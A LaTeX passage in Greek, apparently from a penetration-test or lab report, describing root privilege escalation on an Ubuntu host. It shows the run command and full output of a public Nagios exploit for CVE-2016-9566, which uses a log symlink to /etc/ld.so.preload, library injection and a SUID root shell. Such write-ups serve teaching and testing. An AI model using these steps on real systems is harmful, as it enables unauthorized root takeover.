 \documentclass[12pt]{report}
\begin{document}
\section{Επαύξηση Δικαιωμάτων}
Τοποθετούμε το \textlatin{session} που άνοιξε, στο υπόβαθρο. Στη συνέχεια αποκτούμε πρόσβαση υπερχρήστη, εκμεταλευόμενοι συγκεκριμένη αδυναμία του \textlatin{nagios}~\cite{exploit:02}. Για να το επιτύχουμε αυτό, τρέχουμε το \textlatin{bash script} του παραρτήματος~\ref{AppB}
\begin{scriptsize}
\begin{verbatim}
www-data@ubuntu:/usr/local/nagios/share$ cd /tmp
www-data@ubuntu:/tmp$ ./nagios-root-privesc.sh /usr/local/nagios/var/nagios.log
 
Nagios Core - Root Privilege Escalation PoC Exploit (CVE-2016-9566) 
nagios-root-privesc.sh (ver. 1.0)

Discovered and coded by: 

Dawid Golunski 
https://legalhackers.com 

[+] Starting the exploit as: 
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(nagios),1002(nagcmd)

[+] Compiling the privesc shared library (/tmp/nagios_privesc_lib.c)

[+] Backdoor/low-priv shell installed at: 
-rwxrwxrwx 1 root root 1029624 Dec 16 22:17 /tmp/nagiosrootsh

[+] The system appears to be exploitable (writable logdir) ! :) Symlink created at: 
lrwxrwxrwx 1 www-data nagios 18 Dec 16 22:17 /usr/local/nagios/var/nagios.log -> /etc/ld.so.preload

[+] Waiting for Nagios service to get restarted...
Do you want to shutdown the Nagios daemon to speed up the restart process? ;) [y/N] y

[+] Nagios stopped. Shouldn't take long now... ;)

[+] Nagios restarted. The /etc/ld.so.preload file got created with the privileges: 
-rw-r--r-- 1 nagios nagios 871 Dec 16 22:17 /etc/ld.so.preload

[+] Injecting /tmp/nagios_privesc_lib.so via the pipe nagios.cmd to bypass lack of write perm on ld.so.preload

[+] The /etc/ld.so.preload file now contains: 
[1481463869] Warning: Unrecognized external command -> NAGIOS_GIVE_ME_ROOT_NOW!;; /tmp/nagios_privesc_lib.so

[+] Triggering privesc code from /tmp/nagios_privesc_lib.so by executing /usr/bin/sudo SUID binary

[+] Rootshell got assigned root SUID perms at: 
-rwsrwxrwx 1 root root 1029624 Dec 16 22:17 /tmp/nagiosrootsh

Got root via Nagios!

[+] Nagios pwned. Spawning the rootshell /tmp/nagiosrootsh now

nagiosrootsh-4.3# 
\end{verbatim}
\end{scriptsize}
Οι παραπάνω εντολές μας δίνουν το \textlatin{shell} που αποκτήσαμε αρχικά, αλλά πλέον με δικαιώματα υπερχρήστη.
\end{document}
